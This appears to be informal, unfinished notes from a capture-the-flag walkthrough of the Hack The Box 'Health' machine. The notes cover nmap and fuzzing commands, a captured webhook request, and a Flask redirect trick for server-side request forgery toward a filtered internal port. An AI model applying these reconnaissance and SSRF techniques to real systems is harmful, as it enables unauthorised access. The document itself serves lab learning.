


Starting Nmap 7.92 ( https://nmap.org ) at 2023-03-16 21:08 EDT
Nmap scan report for 10.10.11.176
Host is up (0.26s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE    SERVICE
22/tcp   open     ssh
80/tcp   open     http
3000/tcp filtered ppp

adding to th ehost file

` echo "10.10.11.176 health.htb" | sudo tee -a /etc/hosts`

Web applications that take a URL as an input tend to be vulnerable to a Server-side request forgery
(SSRF) attack. The goal of this attack is to induce the server to make requests to an unintended location. In
this particular case we could try to use the application to access the service running on port 3000 . We know
that on port 80 there is a website, so let's try to access it using localhost or 127.0.0.1 .



looking through burp

```
POST /webhook HTTP/1.1
Host: health.htb
Content-Length: 171
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://health.htb
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.134 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://health.htb/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: XSRF-TOKEN=eyJpdiI6Ikg3L2FWNyt5Rzc3dk95N1RsTEtWUnc9PSIsInZhbHVlIjoid0cwMkRPNnJNb0tPdVRIbllNTWZvZ3pLR1o0a2tmeThJd05GSm1mZlE1dTJKaGpLTU9wSWdkNy8rREp3NForQWZ0RDJBamZmdThicE9BYlZSN1JtcC95YlFvem10VEltK1hobDAxRk5POFRKanpHK0doamNXZkdLVUlGd01ydGoiLCJtYWMiOiIwNDNhMDY5ZWRkNzZhN2JjOGM4ZWNlYTE1NWU0MmI5ZDI0OGQxNTk0MGZhYTc3NDZkMWRlMzg1Zjk3Y2YwZGVkIiwidGFnIjoiIn0%3D; laravel_session=eyJpdiI6IkM3RSs1STAwdENMSWRISUtNZnQwM2c9PSIsInZhbHVlIjoiWHU4OGw0bGo0Y3VIc1lDV1VSUm9aZ2JaR0JiK2dzN1E0UWVZNkgxNUhNRldtRUZGQU9oVXBoRk1JNFZqeGFaUHovb0tKOFN3MkdaVmdFWUNVODZEd1Blc1RMcWh2dEFSWHgxV210bitVaXNmNjFYcVRlamtoV0ZQRVlVRlM5N2siLCJtYWMiOiJhZTYzODVjN2Y5OTJiNmIxODUxOTY4MjhlMmE3MzY4Yzk2ZjJhNDgwNDY1ZGY5YWNjY2E1YzY1Y2FiNzlhZDMyIiwidGFnIjoiIn0%3D
Connection: close

_token=yleorSweCAV3odWAVLOqBpfFhtgXFHJG2XAqOuNx&webhookUrl=http%3A%2F%2F10.10.14.16%2Fhook&monitoredUrl=http%3A%2F%2F10.10.14.16%2F&frequency=*****&onlyError=1&action=Test
```

we can confirm whether it is running php thorugh trying ot access `index.php`

can run ferox buster for directory brute force

`feroxbuster -u http://health.htb -x php`

using sub domain brute force

` wfuzz -u http://10.10.11.176 -H "Host: FUZZ.health.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --hw 620`

trying to get to know who is making the request



I’d like to see what’s on that port 3000 that’s filtered when I run nmap. The filtering implies that the port is open, just blocked by a firewall. But I can’t give the site a URL that has it’s own IP in it.

I’ll see if the client making these web requests follows redirects. I’ll write a short Flask web server:

[](./frequest.py)

This code defines three end points. A GET request to /redirect will return a redirect to http://10.10.14.6/test. a GET to /test will return “Hello!”. If that works, there will be a POST to /hook, which will print success and the body.

```
10.10.11.176 - - [16/Mar/2023 21:42:36] "GET /hook HTTP/1.0" 405 -
10.10.11.176 - - [16/Mar/2023 21:42:37] "POST /redirect HTTP/1.1" 405 -
10.10.11.176 - - [16/Mar/2023 21:43:10] "GET /redirect HTTP/1.0" 302 -

Got Hook!
{'webhookUrl': 'http://10.10.14.16/hook', 'monitoredUrl': 'http://10.10.14.16/redirect', 'health': 'down'}
```

when trying to redirect to htb I only get

```
10.10.11.176 - - [16/Mar/2023 21:51:34] "GET /redirect HTTP/1.0" 302 -

```

first monitored then payload

we could have tried IP address as hex as well

